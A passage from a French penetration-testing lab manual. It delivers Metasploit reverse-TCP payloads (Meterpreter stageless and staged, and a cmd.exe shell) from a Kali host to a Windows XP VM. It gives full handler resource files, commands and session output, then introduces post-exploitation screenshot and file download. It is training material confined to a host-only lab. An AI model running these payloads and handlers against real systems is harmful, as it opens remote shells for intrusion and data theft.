**Critères de réussite** — une session Meterpreter est ouverte depuis `192.168.56.104`, `sysinfo` identifie Windows XP, `getuid` identifie le compte `win`, le journal Apache contient le téléchargement du fichier `.exe`, la capture réseau contient le flux HTTP et le flux TCP 4444, et une session shell `cmd.exe` est obtenue avec le payload `windows/shell/reverse_tcp`.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `msfconsole` | `msfconsole -q -r <fichier.rc>` | Exécuter un fichier de ressources Metasploit |
| `exploit/multi/handler` | `use exploit/multi/handler` | Écouter la connexion inverse du payload |
| `sessions` | `sessions -l`, `sessions -i`, `sessions -K` | Lister, ouvrir et fermer les sessions |
| `spool` | `spool <fichier>` | Enregistrer le transcript de la console Metasploit |
| `tcpdump` | `tcpdump -i any -nn -s0 -w <pcap>` | Capturer le trafic réseau |
| Internet Explorer | `http://192.168.56.101/payloads/<fichier>.exe` | Télécharger le payload sur Windows XP |
| `VBoxManage` | `VBoxManage snapshot WinXp list` | Vérifier le snapshot de la VM |
| `prouve` | `prouve <fichier> <commande>` | Journaliser les commandes Kali |

### Commande et laboratoire étape par étape

#### Étape 1 — Vérifier le snapshot Windows XP

**But** — confirmer qu'un point de restauration existe avant d'exécuter le premier payload.

**Machine** — hôte VirtualBox.

**Prérequis** — VM Windows XP présente, snapshot `WinXP` créé, répertoire de travail du dépôt accessible sur l'hôte.

> **Machine** : hôte VirtualBox | **Terminal** : terminal de l'hôte | **Utilisateur** : votre compte utilisateur | **Répertoire** : racine du dépôt

**Exemple de commande**

```bash
mkdir -p preuves/ch2-lab03
{
  printf '# date: %s\n# cmd: %s\n' "$(date -Is)" "VBoxManage snapshot WinXp list"
  VBoxManage snapshot WinXp list
  printf '# rc=%d\n' "$?"
} 2>&1 | tee preuves/ch2-lab03/snapshot-avant.txt
```

**Explication de la commande**

- `mkdir -p preuves/ch2-lab03` : crée le dossier de preuves du lab sur l'hôte.
- `{ ... }` : regroupe plusieurs commandes pour que leur sortie soit traitée comme un seul flux.
- `printf '# date: %s\n# cmd: %s\n' ...` : écrit l'horodatage et la commande dans l'en-tête de la preuve, au format attendu.
- `VBoxManage snapshot WinXp list` : liste les snapshots de la VM `WinXp`. Le nom exact de la VM et du snapshot doit apparaître.
- `printf '# rc=%d\n' "$?"` : écrit le code retour de `VBoxManage`. Un code `0` signifie que la commande a réussi.
- `2>&1` : fusionne la sortie d'erreur avec la sortie standard.
- `| tee preuves/ch2-lab03/snapshot-avant.txt` : affiche le résultat et l'écrit dans la preuve.
- Piège : si le snapshot `WinXP` est absent, créez-le avant de continuer avec `VBoxManage snapshot WinXp take WinXP --description "Etat sain avant payloads chapitre 2"`. Sans snapshot, le rollback du Lab-05 sera impossible.

**Résultat attendu**

```text
# date: 2026-11-17T...
# cmd: VBoxManage snapshot WinXp list
   Name: WinXP (UUID: ...) *
# rc=0
```

**Preuve** — `preuves/ch2-lab03/snapshot-avant.txt` sur l'hôte.

#### Étape 2 — Écrire le fichier de ressources du handler stageless

**But** — préparer un fichier `.rc` qui démarre le handler Meterpreter stageless sur le port 4444 et active le transcript de session.

**Machine** — Kali `192.168.56.101`, terminal 2.

**Prérequis** — Lab-02 terminé, payload `windows_xp_stageless.exe` présent dans `/var/www/payloads`.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
mkdir -p preuves/ch2-lab03
cat > preuves/ch2-lab03/handler-stageless.rc <<'RC'
spool preuves/ch2-lab03/session-stageless.txt
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
set ExitOnSession false
exploit -j
RC
prouve preuves/ch2-lab03/handler-stageless-rc.txt cat preuves/ch2-lab03/handler-stageless.rc
```

**Explication de la commande**

- `mkdir -p preuves/ch2-lab03` : crée le dossier de preuves sur Kali. Il est distinct de celui de l'hôte.
- `cat > preuves/ch2-lab03/handler-stageless.rc <<'RC'` : écrit le contenu du heredoc dans le fichier `.rc`. Le guillemet simple autour de `RC` empêche toute substitution de variable.
- `spool preuves/ch2-lab03/session-stageless.txt` : démarre l'enregistrement de la console Metasploit dans le fichier de transcript. Le chemin est relatif au répertoire de lancement, `/home/kali`.
- `use exploit/multi/handler` : sélectionne le module d'écoute.
- `set PAYLOAD windows/meterpreter_reverse_tcp` : définit le payload attendu. Il doit correspondre exactement au payload contenu dans l'exécutable stageless.
- `set LHOST 192.168.56.101` : adresse d'écoute de Kali.
- `set LPORT 4444` : port d'écoute. Il doit correspondre au `LPORT` utilisé lors de la génération du payload.
- `set ExitOnSession false` : laisse le handler actif après la première session. Cela permet de recevoir une session, de la fermer, puis d'en recevoir une autre sans relancer le handler.
- `exploit -j` : lance le handler en tâche de fond et rend la main à l'invite `msf6 >` ou `msf6 exploit(multi/handler) >` selon la version.
- `prouve ... cat ...` : enregistre le contenu du fichier `.rc` avec la date, la commande et le code retour.
- Piège : un `PAYLOAD` différent de celui de l'exécutable produit un handler qui écoute mais ne comprend pas la connexion. La session ne s'ouvre pas.

**Résultat attendu**

```text
# date: ...
# cmd: cat preuves/ch2-lab03/handler-stageless.rc
spool preuves/ch2-lab03/session-stageless.txt
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
set ExitOnSession false
exploit -j
# rc=0
```

**Preuve** — `preuves/ch2-lab03/handler-stageless-rc.txt`.

#### Étape 3 — Lancer le handler stageless

**But** — démarrer l'écoute sur `192.168.56.101:4444` et laisser la console ouverte pour recevoir la session.

**Machine** — Kali `192.168.56.101`, terminal 2.

**Prérequis** — fichier `handler-stageless.rc` créé, port 4444 libre.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
msfconsole -q -r preuves/ch2-lab03/handler-stageless.rc
```

**Explication de la commande**

- `msfconsole -q` : démarre la console Metasploit en mode silencieux.
- `-r preuves/ch2-lab03/handler-stageless.rc` : exécute le fichier de ressources au démarrage. Chaque ligne du fichier est traitée comme une commande Metasploit.
- La console reste ouverte après `exploit -j`, à l'invite `msf6 >` ou `msf6 exploit(multi/handler) >` selon la version. C'est dans cette console que vous constaterez la session.
- Piège : ne fermez pas ce terminal. La fermeture de la console arrête le handler et la session en cours.
- Piège : si le port 4444 est déjà utilisé, le handler affiche une erreur de bind. Vérifiez avec `ss -ltnp | grep 4444` et arrêtez l'ancien processus avant de relancer.

**Résultat attendu**

```text
[*] Processing preuves/ch2-lab03/handler-stageless.rc for ERB directives.
resource (preuves/ch2-lab03/handler-stageless.rc)> spool preuves/ch2-lab03/session-stageless.txt
[*] Spooling to file preuves/ch2-lab03/session-stageless.txt...
resource (preuves/ch2-lab03/handler-stageless.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (preuves/ch2-lab03/handler-stageless.rc)> set PAYLOAD windows/meterpreter_reverse_tcp
PAYLOAD => windows/meterpreter_reverse_tcp
resource (preuves/ch2-lab03/handler-stageless.rc)> set LHOST 192.168.56.101
LHOST => 192.168.56.101
resource (preuves/ch2-lab03/handler-stageless.rc)> set LPORT 4444
LPORT => 4444
resource (preuves/ch2-lab03/handler-stageless.rc)> set ExitOnSession false
ExitOnSession => false
resource (preuves/ch2-lab03/handler-stageless.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.56.101:4444
msf6 >
```

Le handler est actif. Le transcript `session-stageless.txt` est ouvert et reçoit déjà ces lignes.

**Preuve** — transcript en cours `preuves/ch2-lab03/session-stageless.txt` ; il sera complété à l'étape 6.

#### Étape 4 — Démarrer la capture réseau

**But** — capturer le trafic HTTP de téléchargement et le flux TCP de la session inverse.

**Machine** — Kali `192.168.56.101`, terminal 3.

**Prérequis** — `tcpdump` installé, accès `sudo`, interface host-only active.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 3 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
sudo -v
sudo timeout 180 tcpdump -i any -nn -s0 -w preuves/ch2-lab03/trafic-xp.pcap -c 5000 'host 192.168.56.104'
```

**Explication de la commande**

- `sudo -v` : met à jour le cache d'authentification `sudo` avant la capture. Le mot de passe n'est pas demandé au milieu de la capture.
- `timeout 180` : arrête automatiquement `tcpdump` après 180 secondes si vous ne l'arrêtez pas manuellement. Évite une capture infinie. Si le téléchargement et la session prennent plus de temps, remplacez `180` par `600`.
- `tcpdump` : outil de capture de paquets en ligne de commande.
- `-i any` : écoute sur toutes les interfaces. Sur certaines versions, `any` utilise une capture de type Linux cooked ; si le filtre ne fonctionne pas, utilisez le nom de l'interface host-only affiché dans Kali par `ip -4 addr` (souvent `eth0` ou `eth1`). `vboxnet0` est le nom côté hôte VirtualBox.
- `-nn` : désactive la résolution des noms d'hôtes et des services. Les adresses et ports restent numériques, ce qui rend la preuve stable.
- `-s0` : capture le paquet entier, sans troncature.
- `-w preuves/ch2-lab03/trafic-xp.pcap` : écrit les paquets au format PCAP dans le fichier indiqué.
- `-c 5000` : arrête après 5000 paquets. Cette limite évite de remplir le disque si la capture reste ouverte.
- `'host 192.168.56.104'` : filtre BPF qui ne conserve que le trafic dont l'adresse source ou destination est Windows XP.
- Piège : démarrez la capture avant de télécharger le payload. Une capture démarrée après le `GET` ne contient pas la requête HTTP.

**Résultat attendu**

```text
tcpdump: listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
```

Laissez la capture active et passez à l'étape 5. Ne fermez pas ce terminal.

**Preuve** — fichier `preuves/ch2-lab03/trafic-xp.pcap` en cours d'écriture ; il sera vérifié à l'étape 7.

#### Étape 5 — Télécharger le payload stageless sur Windows XP

**But** — déposer `windows_xp_stageless.exe` dans `C:\Temp` sur Windows XP, sans encore l'exécuter.

**Machine** — Windows XP `192.168.56.104`, interface graphique.

**Prérequis** — Windows XP démarré, connecté au réseau host-only (adaptateur `vboxnet0` côté hôte), Internet Explorer disponible, handler actif, capture réseau active.

> **Machine** : Windows XP `192.168.56.104` | **Terminal** : Internet Explorer et `cmd.exe` | **Utilisateur** : `win` | **Répertoire** : `C:\Documents and Settings\win`

**Exemple de commande**

Dans `cmd.exe`, créer le répertoire cible :

```text
mkdir C:\Temp
```

Puis, dans Internet Explorer, ouvrir l'URL suivante :

```text
http://192.168.56.101/payloads/windows_xp_stageless.exe
```

Dans la boîte de dialogue, choisir **Enregistrer**, puis enregistrer le fichier sous `C:\Temp\windows_xp_stageless.exe`.

**Explication de la commande**

- `mkdir C:\Temp` : crée le répertoire de dépôt du payload. Windows XP ne le crée pas par défaut.
- L'URL pointe vers le serveur Apache de Kali et demande le fichier stageless généré au Lab-02.
- Internet Explorer envoie une requête HTTP `GET /payloads/windows_xp_stageless.exe` depuis `192.168.56.104` vers `192.168.56.101:80`. Cette requête illustre `T1105`.
- Choisir **Enregistrer** plutôt que **Exécuter** sépare le téléchargement de l'exécution. Cette séparation permet de prouver le dépôt du fichier avant de déclencher la session.
- Piège : Internet Explorer peut afficher une barre de sécurité « Pour aider à protéger votre sécurité, Internet Explorer a bloqué le téléchargement de ce fichier ». Cliquez sur la barre, choisissez **Autoriser le téléchargement**, puis relancez l'enregistrement.
- Piège : si le fichier est enregistré sur le Bureau au lieu de `C:\Temp`, le chemin des étapes suivantes ne correspond plus. Utilisez le chemin exact `C:\Temp\windows_xp_stageless.exe`.

**Résultat attendu**

Le fichier apparaît dans `C:\Temp` avec une taille de l'ordre de 200 Ko. Dans Internet Explorer, la boîte de dialogue de téléchargement se ferme sans erreur.

**Preuve** — sur Kali, le journal Apache doit contenir la requête :

```bash
sudo -v
prouve preuves/ch2-lab03/apache-telechargement.txt sudo tail -n 20 /var/log/apache2/access.log
```

La ligne attendue contient `192.168.56.104`, `GET /payloads/windows_xp_stageless.exe HTTP/1.1`, le code `200` et un `User-Agent` de type `Mozilla/4.0 (compatible; MSIE ...)`.

Résultat attendu :

```text
192.168.56.104 - - [date] "GET /payloads/windows_xp_stageless.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
```

**Preuve** — `preuves/ch2-lab03/apache-telechargement.txt`.

#### Étape 6 — Exécuter le payload stageless et constater la session

**But** — provoquer l'exécution du payload sous le compte `win` et vérifier que le handler reçoit une session Meterpreter.

**Machine** — Windows XP `192.168.56.104` pour l'exécution ; Kali `192.168.56.101`, terminal 2, pour la session.

**Prérequis** — handler stageless actif sur le port 4444, payload téléchargé dans `C:\Temp`, capture réseau active.

> **Machine** : Windows XP `192.168.56.104` | **Terminal** : `cmd.exe` ou Explorateur Windows | **Utilisateur** : `win` | **Répertoire** : `C:\Temp`

**Exemple de commande**

Sur Windows XP, exécuter le fichier :

```text
C:\Temp\windows_xp_stageless.exe
```

Puis, dans la console Metasploit sur Kali :

```text
sessions -l
sessions -i 1
sysinfo
getuid
background
sessions -K
jobs -K
spool off
exit -y
```

**Explication de la commande**

- `C:\Temp\windows_xp_stageless.exe` : lance l'exécutable. Windows XP peut afficher un avertissement de sécurité ; acceptez l'exécution. Le processus démarre sous le compte `win`.
- `sessions -l` : liste les sessions ouvertes. La session doit apparaître avec un identifiant, un type (`meterpreter`) et l'adresse inverse.
- `sessions -i 1` : ouvre la session numéro 1 et donne l'invite `meterpreter >`.
- `sysinfo` : affiche le nom de la machine, la version de Windows, l'architecture et la version de Meterpreter.
- `getuid` : affiche le compte sous lequel le payload s'exécute.
- `background` : replace la session en arrière-plan et rend l'invite de la console (`msf6 >` ou `msf6 exploit(multi/handler) >`), sans fermer la session.
- `sessions -K` : ferme toutes les sessions. À exécuter depuis l'invite de la console (`msf6 >` ou `msf6 exploit(multi/handler) >`), pas depuis l'invite `meterpreter >`.
- `jobs -K` : arrête tous les handlers en tâche de fond.
- `spool off` : ferme le transcript `session-stageless.txt`.
- `exit -y` : quitte Metasploit sans demander de confirmation.
- Le payload stageless ne produit pas de message `Sending stage` : le Meterpreter complet est déjà contenu dans l'exécutable. L'absence de ce message est normale et confirme le caractère autonome du payload.
- Piège : si `sessions -l` ne montre aucune session, vérifiez que le `PAYLOAD` du handler est bien `windows/meterpreter_reverse_tcp`, que `LPORT` vaut `4444` et que le payload a réellement été exécuté. Un clic sur **Annuler** dans l'avertissement de sécurité ne lance pas le processus.

**Résultat attendu**

```text
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.104:1030) at 2026-11-17 10:15:00 +0100

msf6 > sessions -l

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  WINXP\win @ WINXP       192.168.56.101:4444 -> 192.168.56.104:1030 (192.168.56.104)

msf6 > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WINXP
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WINXP\win
meterpreter > background
[*] Backgrounding session 1...
msf6 > sessions -K
[*] Killing all sessions...
msf6 > jobs -K
[*] Stopping all jobs...
msf6 > spool off
[*] Spooling is now disabled
msf6 > exit -y
```

La version de Windows XP, le Service Pack et le numéro de port source peuvent différer. Les informations `WINXP`, `Windows XP`, `x86/windows` et `WINXP\win` sont les valeurs de référence.

**Preuve** — `preuves/ch2-lab03/session-stageless.txt`, transcript `spool` de la console Metasploit.

#### Étape 7 — Arrêter la capture et vérifier le PCAP

**But** — arrêter `tcpdump` et prouver que la capture contient le téléchargement HTTP et le flux de la session inverse.

**Machine** — Kali `192.168.56.101`, terminal 3.

**Prérequis** — capture réseau active depuis l'étape 4, session stageless ouverte puis fermée.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 3 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

Appuyer sur `Ctrl+C` dans le terminal `tcpdump`, puis exécuter :

```bash
prouve preuves/ch2-lab03/verification-pcap.txt bash -c '
  ls -lh preuves/ch2-lab03/trafic-xp.pcap
  tcpdump -nn -r preuves/ch2-lab03/trafic-xp.pcap -c 10 "tcp port 80"
  tcpdump -nn -r preuves/ch2-lab03/trafic-xp.pcap -c 5 "tcp port 4444"
'
```

**Explication de la commande**

- `Ctrl+C` : envoie `SIGINT` à `tcpdump`. Le programme vide ses tampons et ferme proprement le fichier PCAP.
- `ls -lh` : vérifie que le fichier existe et affiche sa taille. Un fichier de taille nulle indique que la capture n'a rien reçu.
- `tcpdump -nn -r ... -c 10 "tcp port 80"` : relit le PCAP, sans résolution de noms, et affiche les dix premiers paquets HTTP. La sortie doit contenir du trafic entre `192.168.56.104` et `192.168.56.101:80`.
- `tcpdump ... "tcp port 4444"` : filtre les paquets de la session inverse. La sortie doit contenir des paquets TCP entre `192.168.56.104` et `192.168.56.101:4444`.
- Piège : si le filtre `host 192.168.56.104` n'a rien capturé, la capture a peut-être été lancée sur la mauvaise interface. Vérifiez avec `ip -4 addr` et relancez avec `-i <interface>` en utilisant le nom affiché dans Kali, pas `vboxnet0`.

**Résultat attendu**

```text
-rw-r--r-- 1 root root 1.2M ... preuves/ch2-lab03/trafic-xp.pcap
10:14:55.123456 IP 192.168.56.104.1041 > 192.168.56.101.80: Flags [S], ...
10:14:55.123789 IP 192.168.56.101.80 > 192.168.56.104.1041: Flags [S.], ...
10:14:55.124012 IP 192.168.56.104.1041 > 192.168.56.101.80: Flags [.], ...
10:14:55.124456 IP 192.168.56.104.1041 > 192.168.56.101.80: Flags [P.], ... HTTP: GET /payloads/windows_xp_stageless.exe
10:14:55.125001 IP 192.168.56.101.80 > 192.168.56.104.1041: Flags [P.], ... HTTP/1.1 200 OK
...
10:15:00.234567 IP 192.168.56.104.1030 > 192.168.56.101.4444: Flags [S], ...
10:15:00.234890 IP 192.168.56.101.4444 > 192.168.56.104.1030: Flags [S.], ...
10:15:00.235123 IP 192.168.56.104.1030 > 192.168.56.101.4444: Flags [.], ...
```

Les numéros de port source et les horodatages varient. La présence d'un `GET /payloads/windows_xp_stageless.exe`, d'une réponse `200 OK` et de paquets vers le port `4444` est le résultat attendu.

**Preuve** — `preuves/ch2-lab03/verification-pcap.txt` et `preuves/ch2-lab03/trafic-xp.pcap`.

#### Étape 8 — Tester le payload staged sur le port 4445

**But** — vérifier qu'un payload staged ouvre une session Meterpreter après téléchargement du second stage.

**Machine** — Kali `192.168.56.101`, terminal 2 ; Windows XP `192.168.56.104` pour le téléchargement et l'exécution.

**Prérequis** — session stageless fermée, job stageless arrêté, payload `windows_xp_staged.exe` présent, port 4445 libre.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

Créer et lancer le handler staged :

```bash
cat > preuves/ch2-lab03/handler-staged.rc <<'RC'
spool preuves/ch2-lab03/session-staged.txt
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4445
set ExitOnSession false
exploit -j
RC
prouve preuves/ch2-lab03/handler-staged-rc.txt cat preuves/ch2-lab03/handler-staged.rc
msfconsole -q -r preuves/ch2-lab03/handler-staged.rc
```

Sur Windows XP, télécharger puis exécuter le payload :

```text
http://192.168.56.101/payloads/windows_xp_staged.exe
C:\Temp\windows_xp_staged.exe
```

Puis, dans la console Metasploit :

```text
sessions -l
sessions -i 1
sysinfo
getuid
background
sessions -K
jobs -K
spool off
exit -y
```

**Explication de la commande**

- Le fichier `.rc` est identique à celui de l'étape 2, sauf le `PAYLOAD` (`windows/meterpreter/reverse_tcp`) et le `LPORT` (`4445`). Le nom du payload staged contient un slash, celui du payload stageless un underscore.
- `spool preuves/ch2-lab03/session-staged.txt` : enregistre le transcript de cette variante dans un fichier distinct.
- Le téléchargement et l'exécution sur Windows XP suivent la même procédure que pour le payload stageless.
- Le stager contenu dans l'exécutable se connecte à `192.168.56.101:4445`, puis télécharge le second stage sur la même connexion TCP. Le second stage n'est pas récupéré par HTTP.
- `sysinfo` et `getuid` confirment que la session est bien ouverte sur Windows XP.
- Le message `Sending stage (200774 bytes)` correspond à l'envoi du second stage (metsrv) par le handler. Les 333 octets du stager sont la taille du premier composant contenu dans l'exécutable, pas la taille du stage envoyé.
- Piège : si le handler utilise `windows/meterpreter_reverse_tcp` (stageless) alors que l'exécutable est staged, la session ne s'ouvre pas. Les deux noms sont proches mais non interchangeables.
- Piège : le port 4445 doit être libre. Un ancien handler sur ce port empêche le nouveau de démarrer.

**Résultat attendu**

```text
[*] Started reverse TCP handler on 192.168.56.101:4445
[*] Sending stage (200774 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.101:4445 -> 192.168.56.104:1031) at ...
meterpreter > sysinfo
Computer        : WINXP
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WINXP\win
```

**Preuve** — `preuves/ch2-lab03/session-staged.txt` et `preuves/ch2-lab03/handler-staged-rc.txt`.

#### Étape 9 — Tester le payload shell sur le port 5555

**But** — vérifier qu'un payload shell reverse ouvre une session `cmd.exe` et permet d'exécuter des commandes Windows de base.

**Machine** — Kali `192.168.56.101`, terminal 2 ; Windows XP `192.168.56.104` pour le téléchargement et l'exécution.

**Prérequis** — session staged fermée, job staged arrêté, payload `windows_xp_shell.exe` présent, port 5555 libre.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 2 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

Créer et lancer le handler shell :

```bash
cat > preuves/ch2-lab03/handler-shell.rc <<'RC'
spool preuves/ch2-lab03/session-shell.txt
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.56.101
set LPORT 5555
set ExitOnSession false
exploit -j
RC
prouve preuves/ch2-lab03/handler-shell-rc.txt cat preuves/ch2-lab03/handler-shell.rc
msfconsole -q -r preuves/ch2-lab03/handler-shell.rc
```

Sur Windows XP, télécharger puis exécuter le payload :

```text
http://192.168.56.101/payloads/windows_xp_shell.exe
C:\Temp\windows_xp_shell.exe
```

Puis, dans la console Metasploit :

```text
sessions -l
sessions -i 1
hostname
echo %USERNAME%
ipconfig
exit
sessions -K
jobs -K
spool off
exit -y
```

**Explication de la commande**

- Le fichier `.rc` utilise `windows/shell/reverse_tcp` et le port `5555`.
- `sessions -i 1` ouvre un shell `cmd.exe`, et non Meterpreter. L'invite affiche le répertoire courant de Windows XP.
- `hostname` : affiche le nom NetBIOS de la machine, attendu `WINXP`.
- `echo %USERNAME%` : affiche le nom du compte courant. Sur Windows XP, `whoami` n'est pas toujours installé ; `echo %USERNAME%` est la commande de repli fiable.
- `ipconfig` : affiche la configuration réseau de Windows XP, notamment l'adresse `192.168.56.104`.
- `exit` : ferme le shell et la session.
- `sessions -K`, `jobs -K`, `spool off` et `exit -y` ferment les ressources restantes et le transcript.
- Piège : `sysinfo` et `getuid` ne fonctionnent pas dans un shell `cmd.exe`. Ces commandes sont propres à Meterpreter. Utilisez `hostname`, `echo %USERNAME%` et `ipconfig`.

**Résultat attendu**

```text
[*] Started reverse TCP handler on 192.168.56.101:5555
[*] Command shell session 1 opened (192.168.56.101:5555 -> 192.168.56.104:1032) at ...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Temp>hostname
WINXP

C:\Temp>echo %USERNAME%
win

C:\Temp>ipconfig
Windows IP Configuration

Ethernet adapter Local Area Connection:
        IP Address. . . . . . . . . . . . : 192.168.56.104
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . :

C:\Temp>exit
```

**Preuve** — `preuves/ch2-lab03/session-shell.txt` et `preuves/ch2-lab03/handler-shell-rc.txt`.

#### Étape 10 — Consolider le journal Apache et l'état final

**But** — produire une preuve unique des trois téléchargements et vérifier qu'aucun processus Metasploit ne reste actif.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étapes 1 à 9 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
sudo -v
prouve preuves/ch2-lab03/journal-apache-final.txt sudo grep -E '^192\.168\.56\.104 .*windows_xp_(stageless|staged|shell)\.exe' /var/log/apache2/access.log
prouve preuves/ch2-lab03/etat-final.txt bash -c '
  ps -eo pid,comm,args | grep -E "[m]sfconsole" || echo "aucun processus msfconsole"
'
```

**Explication de la commande**

- `sudo -v` : met à jour le cache `sudo` avant la lecture du journal.
- `sudo grep -E '^192\.168\.56\.104 .*windows_xp_(stageless|staged|shell)\.exe' /var/log/apache2/access.log` : filtre les lignes du journal Apache qui concernent les trois payloads et proviennent de Windows XP. `-E` active les expressions régulières étendues ; `(stageless|staged|shell)` accepte l'une des trois variantes. Le filtre sur l'adresse source exclut les requêtes `curl` de Kali au Lab-02.
- `ps -eo pid,comm,args` : liste les processus avec leur identifiant, leur nom court et leur ligne de commande complète.
- `grep -E "[m]sfconsole"` : cherche les processus dont la ligne de commande contient `msfconsole`. Les crochets dans `[m]` empêchent `grep` de se trouver lui-même.
- `|| echo "aucun processus msfconsole"` : affiche un message explicite si aucun processus n'est trouvé. Le code retour de `grep` est `1` lorsqu'il ne trouve rien, mais la commande globale réussit grâce à `echo`.
- Piège : un processus `msfconsole` encore actif signifie qu'un handler écoute peut-être encore. Vérifiez avec `ss -ltnp | grep -E '4444|4445|5555'` et arrêtez-le avant le Lab-04.

**Résultat attendu**

```text
192.168.56.104 - - [date] "GET /payloads/windows_xp_stageless.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
192.168.56.104 - - [date] "GET /payloads/windows_xp_staged.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
192.168.56.104 - - [date] "GET /payloads/windows_xp_shell.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
aucun processus msfconsole
```

**Preuve** — `preuves/ch2-lab03/journal-apache-final.txt` et `preuves/ch2-lab03/etat-final.txt`.

### En conclusion

Le Lab-03 a livré et exécuté trois payloads sur Windows XP. Le payload stageless a ouvert une session Meterpreter sur le port 4444, le payload staged a ouvert une session sur le port 4445 après téléchargement du second stage, et le payload shell a ouvert une session `cmd.exe` sur le port 5555. Le journal Apache prouve les trois téléchargements et la capture réseau prouve le flux HTTP puis le flux TCP de la session.

Points à retenir :

- le handler doit utiliser exactement le même nom de payload que l'exécutable ;
- `LHOST` et `LPORT` doivent correspondre aux valeurs utilisées lors de la génération ;
- le payload stageless ne dépend pas d'un second téléchargement, le payload staged si ;
- le payload shell donne `cmd.exe`, pas Meterpreter ;
- `sessions -K` et `jobs -K` nettoient les sessions et les handlers avant la variante suivante ;
- le transcript `spool` et le PCAP sont les preuves principales de l'exécution.

Critères de réussite :

- `preuves/ch2-lab03/` contient les preuves des étapes 1 à 10 ;
- `session-stageless.txt` contient `Meterpreter session 1 opened` et `WINXP\win` ;
- `session-staged.txt` contient une session ouverte avec `windows/meterpreter/reverse_tcp` ;
- `session-shell.txt` contient `Command shell session 1 opened`, `WINXP` et `win` ;
- `journal-apache-final.txt` contient trois requêtes `GET` en `200` ;
- `trafic-xp.pcap` contient le `GET` HTTP et le flux TCP 4444 ;
- `etat-final.txt` ne signale aucun processus `msfconsole` actif.

Le Lab-04 rouvre une session Meterpreter et explore les commandes de découverte, de capture d'écran et de téléchargement de fichiers.

## Lab-04 — Session Meterpreter, commandes et collecte de preuves

### Énoncé / Contexte

Ce lab rouvre une session Meterpreter sur Windows XP et explore les commandes de reconnaissance, d'accès au système de fichiers, d'exécution de shell, de capture d'écran et de téléchargement de fichiers. Il produit les preuves détaillées qui complètent le transcript du Lab-03.

**Place dans la chaîne** — après l'obtention de la session (Lab-03), avant le nettoyage et la détection (Lab-05). Les fichiers `boot.ini` et la capture d'écran sont conservés après le rollback.

**Objectifs pédagogiques** — à la fin de ce lab, vous devez être capable de :

- rouvrir une session Meterpreter avec un fichier de ressources ;
- identifier la machine, l'utilisateur, l'architecture et le processus du payload ;
- lister les processus et repérer le processus créé par le payload ;
- parcourir le système de fichiers avec `pwd`, `ls` et `cd` ;
- ouvrir un shell `cmd.exe` et exécuter `hostname`, `echo %USERNAME%`, `ipconfig` et `systeminfo` ;
- prendre une capture d'écran et télécharger un fichier de preuve ;
- fermer proprement la session et vérifier les fichiers copiés sur Kali.

**Périmètre et sécurité** — les commandes restent dans la session ouverte sur Windows XP. Aucune persistance, aucune modification de compte, aucun vidage d'identifiants et aucun mouvement latéral ne sont exécutés. Le fichier `boot.ini` est lu, pas modifié. La capture d'écran ne quitte pas le réseau host-only.

**Critères de réussite** — `sysinfo` identifie Windows XP, `getuid` identifie `WINXP\win`, `ps` montre le processus du payload, `pwd` et `ls` parcourent le profil utilisateur, le shell affiche `WINXP` et `win`, `screenshot` produit un fichier JPEG, `download` produit `preuves/ch2-lab04/boot.ini`, et la session est fermée sans processus Metasploit résiduel.

### Outils et commandes utilisées

| Outil | Commande | Rôle |
|---|---|---|
| `msfconsole` | `msfconsole -q -r <fichier.rc>` | Rouvrir le handler et la session |
| Meterpreter | `sysinfo`, `getuid`, `getpid` | Identifier la cible et le processus |
| Meterpreter | `ps` | Lister les processus |
| Meterpreter | `pwd`, `ls`, `cd` | Parcourir le système de fichiers |
| Meterpreter | `shell` | Ouvrir un shell `cmd.exe` |
| Meterpreter | `screenshot` | Capturer l'écran de Windows XP |
| Meterpreter | `download` | Télécharger un fichier vers Kali |
